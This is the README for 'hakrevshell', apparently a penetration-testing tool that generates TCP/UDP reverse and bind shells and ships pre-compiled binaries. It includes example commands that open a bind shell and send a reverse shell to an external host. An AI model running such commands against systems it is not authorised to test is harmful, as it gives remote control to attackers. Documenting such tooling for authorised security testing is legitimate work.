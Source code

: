 # hakrevshell
A tool for easily generating reverse/bind shells via tcp/udp on your system. Check out the binaries folder for pre-compiled binaries for many different systems.

## Usage

- `-h`: Host and port to connect to
- `--udp`: Use UDP instead of the default TCP
- `--bind`: Create a bind shell instead of the default reverse shell

## Example Usage

Create a UDP bind shell on port 1337

```
hakrevshell -h 192.168.0.44:1337 --udp --bind
```

Create a TCP reverse shell to port 9001 on external host (192.168.0.45)

```
hakrevshell -h 192.168.0.45:9001
```
